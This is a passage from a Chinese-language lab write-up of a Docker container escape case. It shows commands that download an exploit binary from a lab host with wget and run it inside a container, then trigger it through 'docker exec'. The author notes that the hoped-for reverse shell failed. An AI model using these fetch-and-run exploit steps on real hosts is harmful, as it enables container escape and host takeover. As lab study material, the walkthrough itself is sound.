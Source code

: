 在docker容器中下载该exp，并赋予执行权限，执行

```text
wget http://192.168.198.128:8080/main
chmod u+x main
./main
```

![image-20231008151732401](Docker逃逸漏洞案例.assets/image-20231008151732401.png)

然后这里我们假装为宿主机管理员，现在进入到该容器中

```text
docker ps
docker exec -it 3056c91f69ea
```

![image-20231008151740181](Docker逃逸漏洞案例.assets/image-20231008151740181.png)

这时再来看我们的docker容器里执行的exp已然被执行

![img](Docker逃逸漏洞案例.assets/v2-29242efcee38fd28b492d991bcdcccab_720w.png)

但是奇怪的是并没有反弹过来shell，其他命令也无法被执行，修改了n次paylaod也无果，希望有成功的大佬能告知小弟步骤哪里错了。
至此，Docker逃逸漏洞案例章节完结，撒花~~
